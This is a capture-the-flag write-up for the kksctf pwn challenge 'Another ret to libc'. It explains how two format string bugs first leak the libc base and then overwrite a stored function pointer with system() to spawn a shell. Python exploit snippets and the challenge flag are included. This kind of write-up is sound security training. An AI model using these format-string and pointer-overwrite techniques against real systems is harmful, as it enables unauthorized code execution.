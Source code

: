 # Another ret to libc


**Category:** Pwn

**Points:** 997

**Description:**

Kackers are hiding some crucial information here. We don't know what exactly it is, but can you help us to retrive it? 

`nc tasks.open.kksctf.ru 10001`

libc: https://drive.google.com/open?id=1t9G-yAWk0c8eLTlDZ45DstV0UqmrScgS

@oldwayfarer

## WriteUp

### Main idea
There is two main vulnerabilities in this programm. The first one is a format string bug in user generation (part with id generation), that can possibly lead to leak of libc base. The second one is again a format string vulnerability, but this time it can help us to overflow the inner buffer of the user structure and overwrite stored addresses of functions in it with system.

### Exploitation
First of all exploiting the first format string vulnerability to leak the libc base. User id is a bitwise XOR of 8 bytes of name with some gamma. Using the format string in snprintf() we can insert address of libc_start_main into the id

    s.sendline("%10$08x") 
    s.sendline("123")
    s.sendline("1")
    s.sendline("1")
    s.recvuntil("#")

Then retriving address from id

    id_ = s.recvline()[:-2]
    leak = [id_[i:i+2] for i in range(0, len(id_), 2)]
    leak = int("".join([chr(int(leak[i], 16)^gamma[i]) for i in range(len(leak))]), 16)

After that we need to exploit the second format string. Addressess of change_username and get_user_info functions are stored in the user structure and have a one peremeter - pointer to user structure. We can overflow a name field with format string by changing how many characters to print in %x specifier (e.g. %1337x) and then overwrite an address of change_username with system in this case parameter will be considered as a pointer to string nither a pointer to user structure. Name field is the first field in user structure so we can just pass /bin/sh string in the begining of it.

    s.sendline("2")
    payload = sh + "%{}x".format(str(272 - len(sh)))
    payload += p32(leak - 249 - libc_start_main + libc_system)

And the last part is to send payload, get shell and enjoy how awesome we are

    s.sendline(payload)
    s.sendline("2")
    s.sendline("2")
    s.interactive() #getting the shell

flag: `kks{50_cl053_bu7_inr34chb!3}`

example: [break.py](break.py)
